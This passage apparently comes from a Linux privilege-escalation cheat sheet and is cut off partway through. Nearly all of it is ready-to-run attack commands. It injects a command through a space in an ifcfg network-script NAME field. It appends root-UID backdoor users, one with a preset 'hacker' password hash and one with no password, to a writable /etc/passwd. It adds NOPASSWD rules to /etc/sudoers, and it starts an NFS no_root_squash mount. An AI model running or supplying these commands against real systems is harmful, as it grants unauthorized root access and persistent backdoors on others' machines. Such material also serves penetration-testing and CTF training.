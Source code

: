 NAME=Network /bin/id  &lt;= Note the blank space
ONBOOT=yes
DEVICE=eth0

    EXEC :
    ./etc/sysconfig/network-scripts/ifcfg-1337
    src : https://vulmon.com/exploitdetailsqidtp=maillist_fulldisclosure&qid=e026a0c5f83df4fd532442e1324ffa4f
----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------    
Writable /etc/passwd

    First generate a password with one of the following commands.
    openssl passwd -1 -salt hacker hacker
    mkpasswd -m SHA-512 hacker
    python2 -c 'import crypt; print crypt.crypt("hacker", "$6$salt")'
    then add the user hacker and add the generated password.
    hacker:GENERATED_PASSWORD_HERE:0:0:Hacker:/root:/bin/bash
    E.g: hacker:$1$hacker$TzyKlv0/R/c28R.GAeLw.1:0:0:Hacker:/root:/bin/bash
    You can now use the su command with hacker:hacker
----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
    Alternatively you can use the following lines to add a dummy user without a password.
    WARNING: you might degrade the current security of the machine.


    echo 'dummy::0:0::/root:/bin/bash' >>/etc/passwd
    su - dummy
        NOTE: In BSD platforms /etc/passwd is located at /etc/pwd.db and /etc/master.passwd, also the /etc/shadow is renamed to /etc/spwd.db.

Writable /etc/sudoers

    echo "username ALL=(ALL:ALL) ALL">>/etc/sudoers

    # use SUDO without password
    echo "username ALL=(ALL) NOPASSWD: ALL" >>/etc/sudoers
    echo "username ALL=NOPASSWD: /bin/bash" >>/etc/sudoers
    
NFS Root Squashing
    When no_root_squash appears in /etc/exports, the folder is shareable and a remote user can mount it.


    # remote check the name of the folder
    
    showmount -e 10.10.10.10

    # create dir
    
    mkdir /tmp/nfsdir  

    # mount directory 
    